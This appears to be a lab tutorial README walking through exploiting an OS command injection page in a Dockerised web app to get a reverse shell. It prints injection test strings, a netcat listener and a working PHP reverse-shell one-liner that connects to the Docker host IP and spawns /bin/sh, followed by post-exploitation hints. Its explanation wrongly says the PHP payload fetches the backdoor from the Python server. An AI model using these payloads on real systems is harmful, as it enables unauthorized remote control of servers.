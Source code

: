 # How-to-perform-reverse-shell
  - After successfully setting up the Docker container and deploying the backdoor script, the next steps involve identifying and exploiting vulnerabilities in the web application, specifically targeting OS command injection. Here's a detailed breakdown of what to do after setting up the Docker and backdoor:
## Identifying Vulnerabilities on the OS Command Injection Page

### Procedure:
- Navigate to the Vulnerability Section: Access the web application running inside the Docker container through your browser. Look for a menu or option labelled "Vulnerabilities" or similar.

- Select Command Injection: Within the vulnerabilities section, identify and click on "Command Injection." This option typically brings you to a form or input field where commands can be injected.

### Understanding Command Injection:
- Command injection vulnerabilities occur when an application passes unsafe user-supplied data (in this case, input fields, query parameters, etc.) to a system shell. If the input is not properly sanitized, an attacker can execute arbitrary commands on the server.

- Test for Vulnerability. To test if the page is vulnerable, try injecting a simple command such as ; ls or && whoami. If the command is executed and the result is displayed (like listing the directory contents or showing the current user), then the application is vulnerable to OS command injection.

## First : Run a Python HTTP Server
### Purpose:
- The Python HTTP server will host the backdoor script, allowing it to be served to the target machine.
### Command: 
- Open a new terminal and run the following command
`python3 -m http.server`
### Explanation: 
- This command will start a simple HTTP server that listens on port 8000 by default. The server will serve files from the directory in which the command is executed. Ensure that your backdoor script is in this directory, as it will be accessed via the web browser or a curl command from the target system.

## Find the Docker IP Address
### Purpose:
- Identifying the Docker container's IP address is crucial because it allows you to direct the backdoor connection back to your machine.
### Command:
In a new terminal, run the following command 
`ip a`
### Explanation:
- his command displays all network interfaces and their associated IP addresses. Look for the `docker0` interface, which typically represents the Docker bridge network. The IP address associated with this interface is what you’ll use to direct the reverse shell.

## Set Up a Netcat Listener:
### Purpose:
- The Netcat listener will wait for an incoming connection from the target system, which will be initiated by the backdoor script.
### Command: 
Set up a listener on a specific port (e.g., 1234) using the following command

`nc -lvnp 1234`
### Explanation:
- The -l flag tells Netcat to listen for incoming connections, -v makes it verbose (to display the connection details), -n prevents DNS lookups, and -p specifies the port number to listen on. Once the backdoor script is executed on the target system, it will connect back to your machine on this port, giving you shell access.

## Execute the Reverse Shell: 
### Injection of Payload:
- With confirmation of the vulnerability, inject a payload that will download and execute your backdoor script from the Python HTTP server.
- Example command to inject

  `| php -r '$sock=fsockopen("172.17.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
### Explanation
- This command tells the server to fetch the backdoor script from your Python HTTP server and execute it using PHP. Once executed, the backdoor will initiate a connection to your Netcat listener.

## Gain Shell Access:
- Once the payload is successfully injected and executed, you should see a connection on your Netcat listener. This connection gives you shell access to the target system, allowing you to execute commands as if you were directly logged into the server.

## Post-Exploitation:
- With shell access, you can now navigate the target system, explore files, escalate privileges, or perform any other post-exploitation activities necessary to achieve your objectives.

## Conclusion
- By following these steps, you’ll be able to exploit the OS command injection vulnerability to gain unauthorized access to the target system through a reverse shell. This highlights the critical importance of secure coding practices and the need for rigorous input validation and sanitization in web applications.
